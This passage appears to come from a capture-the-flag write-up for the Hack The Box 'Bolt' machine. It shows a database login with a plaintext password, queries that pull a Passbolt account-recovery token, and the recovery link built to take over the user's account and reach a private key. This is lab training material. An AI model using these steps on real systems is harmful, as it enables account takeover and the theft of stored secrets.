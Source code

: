 ```
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

- We need this key to able to recover the password
  - https://community.passbolt.com/t/recover-account-on-a-network-without-email/1394
  - We have to visit https://passbolt.bolt.htb/ and enter `eddie@bolt.htb`
  - Then we connect to `db` to retrieve `user_id` and `token`

```
eddie@bolt:~/.config/google-chrome/Default$ mysql -u passbolt -p'rT2;jW7<eY8!dX8}pQ8%' passboltdb
mysql: [Warning] Using a password on the command line interface can be insecure.
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 379
Server version: 8.0.26-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> select id from users where username = 'eddie@bolt.htb';
+--------------------------------------+
| id                                   |
+--------------------------------------+
| 4e184ee6-e436-47fb-91c9-dccb57f250bc |
+--------------------------------------+
1 row in set (0.00 sec)

mysql> select token from authentication_tokens where user_id = '4e184ee6-e436-47fb-91c9-dccb57f250bc' and type = 'recover';
Empty set (0.00 sec)

mysql> select token from authentication_tokens where user_id = '4e184ee6-e436-47fb-91c9-dccb57f250bc' and type = 'recover';
+--------------------------------------+
| token                                |
+--------------------------------------+
| 2b4571b7-6cb7-4572-b1d2-ea7bdc9e8388 |
+--------------------------------------+
1 row in set (0.00 sec)

mysql> 
```

- So the link we have to visit is `https://passbolt.bolt.htb/setup/recover/4e184ee6-e436-47fb-91c9-dccb57f250bc/2b4571b7-6cb7-4572-b1d2-ea7bdc9e8388`
  - When we visit the link we have to install the extension
  - After installation, we have window with `Private key` 
